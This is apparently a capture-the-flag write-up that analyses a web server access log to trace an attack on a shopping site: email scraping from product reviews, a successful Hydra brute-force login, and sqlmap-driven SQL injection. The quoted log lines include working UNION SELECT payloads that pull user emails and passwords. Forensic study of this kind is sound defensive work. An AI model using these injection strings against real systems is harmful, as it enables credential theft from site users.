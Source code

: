 **What section of the website did the attacker use to scrape user email addresses?**
**Hint:** Where can customers usually comment on a shopping website?

I figured out this questions after answering the following one, so I had the time the brute force attack was successful, meaning the attacker likely already had an email address they were trying to use to login. I looked at entries of `access.log` before that time and saw a lot of requests to product reviews, which made sense with the given hint that a user's email address might be shown on a product review. The command below can be used to see these log entries.

$ `cat access.log | grep "reviews"`

**Was their brute-force attack successful? If so, what is the timestamp of the successful login? (Yay/Nay, 11/Apr/2021:09:xx:xx +0000)**

I filtered `access.log` to show requests to the login page that were successful with a return code of 200. A couple were returned, but only one with the use of Hydra, which fit for this questions asking about a successful brute force attack.

$ `cat access.log | grep "login" | grep "200"`

```
::ffff:192.168.10.5 - - [11/Apr/2021:09:15:03 +0000] "POST /rest/user/login HTTP/1.1" 200 857 "http://192.168.10.4/" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
::ffff:192.168.10.5 - - [11/Apr/2021:09:16:31 +0000] "POST /rest/user/login HTTP/1.0" 200 831 "-" "Mozilla/5.0 (Hydra)"
::ffff:192.168.10.5 - - [11/Apr/2021:09:20:43 +0000] "POST /rest/user/login HTTP/1.1" 200 831 "http://192.168.10.4/" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
::ffff:192.168.10.5 - - [11/Apr/2021:09:34:33 +0000] "GET /login HTTP/1.1" 200 1924 "-" "feroxbuster/2.2.1"
```

The specific log entry is below:

`::ffff:192.168.10.5 - - [11/Apr/2021:09:16:31 +0000] "POST /rest/user/login HTTP/1.0" 200 831 "-" "Mozilla/5.0 (Hydra)"`

**What user information was the attacker able to retrieve from the endpoint vulnerable to SQL injection?**

I noticed a section of SQL injection log entries in `access.log` where the User-Agent switches from a lot of failed requests using sqlmap, to Firefox, to curl.

```
"GET /rest/products/search?q=1%27%29%20ORDER%20BY%201--%20LbNt HTTP/1.1" 500 - "-" "sqlmap/1.5.2#stable (http://sqlmap.org)"

"GET /rest/products/search?q=1%27%20ORDER%20BY%201--%20ivGK HTTP/1.1" 500 - "-" "sqlmap/1.5.2#stable (http://sqlmap.org)"

"GET /rest/products/search?q=%27))%20UNION%20SELECT%20%271%27,%20%272%27,%20%273%27,%20%274%27,%20%275%27,%20%276%27,%20%277%27,%20%278%27,%20%279%27%20FROM%20Users-- HTTP/1.1" 200 - "-" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"

"GET /rest/products/search?q=%27))%20UNION%20SELECT%20%271%27,%20%272%27,%20%273%27,%20%274%27,%20%275%27,%20%276%27,%20%277%27,%20%278%27,%20%279%27%20FROM%20Users-- HTTP/1.1" 304 - "-" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"

"GET /rest/products/search?q=qwert%27))%20UNION%20SELECT%20id,%20email,%20password,%20%274%27,%20%275%27,%20%276%27,%20%277%27,%20%278%27,%20%279%27%20FROM%20Users-- HTTP/1.1" 200 - "-" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"

"GET /rest/products/search?q=qwert%27))%20UNION%20SELECT%20id,%20email,%20password,%20%274%27,%20%275%27,%20%276%27,%20%277%27,%20%278%27,%20%279%27%20FROM%20Users-- HTTP/1.1" 200 3742 "-" "curl/7.74.0"
```
